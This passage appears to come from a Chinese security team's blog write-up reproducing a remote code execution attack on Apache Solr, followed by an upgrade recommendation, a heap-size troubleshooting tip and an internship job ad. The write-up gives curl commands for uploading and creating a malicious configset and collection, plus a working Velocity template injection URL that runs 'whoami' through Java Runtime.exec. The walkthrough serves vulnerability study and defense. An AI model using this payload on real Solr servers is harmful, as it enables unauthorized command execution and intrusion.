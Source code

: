 通过上传 API 将 zip 上传  
Curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXmYtalPWWMsG7dPmzCN6Gf4GEWrI5m0d20vMIII053gvw2q99P7r0Mxk6dsia08L5fWrLia0bkq0Cw/640?wx_fmt=png)

根据 UPLOAD 的配置，创建一个新的配置，绕过不能通过直接 UPLOAD 创建 collection 的限制  
Curl "http:/127.0.0.1:8983/solr/admin/configs?action=CREATE&

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXmYtalPWWMsG7dPmzCN6GfKlQ4KGrmTjv4BylIEy3YydibKUWZY2jXDxnVgLLzvAxXVvk5Eex0Kaw/640?wx_fmt=png)

根据 CREATE 得到的新 configset 创建恶意 collection

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXmYtalPWWMsG7dPmzCN6GfsictXf8M278wNjvMuFUNwPPengVBjAQ1QicSicETrZq7Of7zURnxPayzA/640?wx_fmt=png)

我们可以利用已上传的 collection 进行远程命令执行  

http://127.0.0.1:\*\*\*\*/solr/file2/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+\[1..$out.available()\])$str.valueOf($chr.toChars($out.read()))%23end

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXmYtalPWWMsG7dPmzCN6GfxzJo3rMgD5PCDbKRlMYyBZ6KzK5m5OH33iadg9rCLm9fOMguKc5c3OA/640?wx_fmt=png)

_**No.6  
**_

_**防御措施**_

  

升级到最新版本  
http://archive.apache.org/dist/lucene/solr/

**小插曲：**  
解决 solr 报错：ERROR:solr at http://localhost:\*\*\*\*/solr did not come online within 30seconds  
检查 server/log/solr-\*\*\*\*-console.log 发现：ERROR occurred during initialization of VM,could not reserve enough space for object heap，可以知道是因为在命令中 - m 2g 中给 heap 的预留空间太大了，此时可以输入 solr start -help 查看 - m 参数的作用是为 JVM 提供堆内存，因此将 2g 改为 1g 成功启动。  
命令：solr.cmd start -m 1g

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXmYtalPWWMsG7dPmzCN6Gf5h59qGQML7Mr51mmnpTZlCTNiakIVdumZ1pIT7OdU1S4pGVBd1rsYlg/640?wx_fmt=png)

_**招聘启事**_

  

安恒雷神众测 SRC 运营（实习生）  
————————  
【职责描述】  
1\.  负责 SRC 的微博、微信公众号等线上新媒体的运营工作，保持用户活跃度，提高站点访问量；  
2\.  负责白帽子提交漏洞的漏洞审核、Rank 评级、漏洞修复处理等相关沟通工作，促进审核人员与白帽子之间友好协作沟通；  
3\.  参与策划、组织和落实针对白帽子的线下活动，如沙龙、发布会、技术交流论坛等；  
4\.  积极参与雷神众测的品牌推广工作，协助技术人员输出优质的技术文章；  
5\.  积极参与公司媒体、行业内相关媒体及其他市场资源的工作沟通工作。  
【任职要求】   
 1.  责任心强，性格活泼，具备良好的人际交往能力；  
 2.  对网络安全感兴趣，对行业有基本了解；  
 3.  良好的文案写作能力和活动组织协调能力。
